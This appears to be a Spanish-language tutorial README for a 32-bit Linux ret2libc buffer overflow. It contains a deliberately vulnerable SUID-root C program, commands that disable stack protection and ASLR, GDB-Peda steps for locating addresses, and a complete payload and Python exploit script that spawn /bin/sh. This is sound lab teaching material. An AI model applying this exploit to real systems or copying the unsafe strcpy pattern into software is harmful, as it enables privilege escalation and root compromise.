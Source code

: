 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linux/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -fno-stack-protector -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
```
## Desactivar el ASLR
```python
echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Muestra la dirección de system.

**Comando:**
 ```bash
 p system
 ```
 Muestra la dirección de exit.

**Comando:**
 ```bash
 p exit
 ```
 Muestra la dirección de /bin/sh.

**Comando:**
 ```bash
 find "/bin/sh" all
 ```
 
 ## Payload final
 ```bash
 payload = offset + system + exit + /bin/sh
 $(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

## Script en python
```python
#/usr/bin/python2

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```

**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linux/)
